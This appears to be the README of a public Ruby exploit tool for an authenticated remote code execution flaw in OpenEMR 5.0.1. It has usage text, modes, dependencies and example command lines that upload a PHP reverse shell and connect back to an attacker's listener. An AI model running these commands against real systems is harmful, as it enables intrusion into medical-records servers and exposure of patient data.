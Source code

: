 # OpenEMR RCE exploit / PoC

> OpenEMR <= 5.0.1 - (Authenticated) Remote Code Execution

[[PacketStorm](https://packetstormsecurity.com/files/158711/OpenEMR-5.0.1-Remote-Code-Execution.html)] [[WLB-2020080011](https://cxsecurity.com/issue/WLB-2020080011)]

## Usage

```
$ ruby exploit.rb --help
OpenEMR <= 5.0.1 - (Authenticated) Remote Code Execution

Usage:
  exploit.rb manual --root-url <url> --shell <filename> --user <username> --password <password> [--debug]
  exploit.rb semi-auto --root-url <url> --user <username> --password <password> --payload <payload> --lhost <host> --lport <port> [--debug]
  exploit.rb auto --root-url <url> --user <username> --password <password> --lhost <host> --lport <port> [--debug]
  exploit.rb -H | --help

Options:
  -r <url>, --root-url <url>            Root URL (base path) including HTTP scheme, port and root folder
  -s <filename>, --shell <filename>     Filename of the PHP reverse shell payload
  -u <username>, --user <username>      Username of the admin
  -p <password>, --password <password>  Password of the admin
  -m <payload>, --payload <payload>     Metasploit PHP payload
  -h <host>, --lhost <host>             Reverse shell local host
  -t <port>, --lport <port>             Reverse shell local port
  --debug                               Display arguments
  -H, --help                            Show this screen

Examples:
  exploit.rb manual -r http://example.org/openemr -s myRevShell.php -u admin -p pass123
  exploit.rb semi-auto -r http://example.org:8080/openemr -u admin_emr -p qwerty2020 -m 'php/reverse_php' -h 10.0.0.2 -t 8888
  exploit.rb auto -r https://example.org:4443 -u admin_usr -p rock5 -h 192.168.0.2 -t 9999
```

## Modes

- **Auto**: you know the target and have your listener ready, let the exploit handle the rest
- **Semit-auto**: same as auto but you would like to specify another payload than the default `php/reverse_php`
- **Manual**: you already have a custom PHP reverse shell, the exploit lets you specify it

## Requirements

- [httpclient](https://github.com/nahi/httpclient)
- [docopt.rb](https://github.com/docopt/docopt.rb)
- (Optional) [Metasploit Framework](https://github.com/rapid7/metasploit-framework) (`msfvenom` for reverse shell generation in auto and semi-auto modes)

Example for BlackArch:

```
pacman -S ruby-httpclient ruby-docopt metasploit
```

Example using gem:

```
gem install httpclient docopt
```

## Reference

This is a better re-write of [EDB-ID-48515][EDB-ID-48515]:

- using arguments (instead of harcoded values)
- allowing custom PHP reverse shell or auto generating one with `msfconsole`
- cleaner & more customizable
- python2 is deprecated

This exploit was tested with Ruby 2.7.1.

About [EDB-ID-48515][EDB-ID-48515]:

```
Exploit Author: Musyoka Ian
Date: 2020-05-25
Vendor Homepage: https://www.open-emr.org/
Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
Version: < 5.0.1 (Patch 4)
Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
References: https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69
```

[EDB-ID-48515]:https://www.exploit-db.com/exploits/48515
